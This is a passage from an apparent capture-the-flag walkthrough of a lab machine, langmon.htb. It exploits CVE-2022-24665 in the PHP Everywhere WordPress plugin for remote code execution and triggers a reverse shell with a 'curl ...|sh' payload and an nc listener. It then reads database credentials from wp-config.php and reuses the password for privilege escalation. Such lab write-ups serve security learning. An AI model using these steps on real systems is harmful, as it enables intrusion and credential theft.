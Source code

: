 We can exploit CVE-2022-24665 from the following article as we are a WordPress Contributor-level user account:
[https://www.wordfence.com/blog/2022/02/critical-vulnerabilities-in-php-everywhere-allow-remote-code-execution/](https://www.wordfence.com/blog/2022/02/critical-vulnerabilities-in-php-everywhere-allow-remote-code-execution/)

By adding a new post, we can add any arbitrary PHP code and obtain Remote Code Execution:
1) Create a new post at http://langmon.htb/wp-admin/post-new.php
![[images/langmon_6.png]]

2. Add PHP Everywhere Tags at [http://langmon.htb/wp-admin/post.php?post=1753&action=edit](http://langmon.htb/wp-admin/post.php?post=1753&action=edit)
![[images/langmon_7.png]]

3. Preview the newly created page at [http://langmon.htb/wp-admin/post.php?post=1753&action=edit](http://langmon.htb/wp-admin/post.php?post=1753&action=edit)
To execute commands, add the `&cmd=<arbitrary command>` to run!

Now we can obtain a reverse shell via a reverse-shell as a service payload (such as https://reverse-shell.sh/) and hosting it at `index.html` from a quick Python webserver.

Trigger the shell via your browser session:
`http://langmon.htb/?p=1753&preview=true&cmd=curl%2010.10.14.79|sh`

Webserver:
```sh
$ python3 -m http.server 80
```

Reverse shell:
```sh
$ nc -nlvp 4444
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.229.92:51184.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@langmon:/var/www/langmon.htb$ 
```

## Privilege Escalation (www-data -> developer)
Enumerating the system with LinPEAS, we were able to identify the Wordpress config file at `/var/www/langmon.htb/wp-config.php` and a password:
```sh
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 1276 Jul  4 11:08 /var/www/langmon.htb/wp-config.php
define( 'DB_NAME', 'pwndb' );
define( 'DB_USER', 'wordpress_user' );
define( 'DB_PASSWORD', 'SNJQvwWHCK' );
define( 'DB_HOST', 'localhost' );
```

The users with console access are shown below and attempting to login via password reuse as the developer account is successful!
```text
╔══════════╣ Users with console
developer:x:1000:1000:,,,:/home/developer:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
